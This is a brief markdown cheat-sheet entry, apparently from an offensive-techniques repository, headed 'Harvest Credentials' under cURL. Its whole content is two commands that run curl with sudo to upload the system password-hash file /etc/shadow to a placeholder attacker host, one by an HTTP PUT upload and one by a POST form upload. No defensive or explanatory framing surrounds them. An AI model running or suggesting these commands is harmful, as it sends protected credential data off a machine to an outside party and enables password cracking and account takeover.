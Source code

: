 # cURL

## Harvest Credentials

PUT HTTP method.

```
user@debian:~$ sudo curl -T /etc/shadow http[s]://<attacker_IP>
```

POST HTTP method.

```
user@debian:~$ sudo curl -F file=/etc/shadow http[s]://<attacker_IP>
```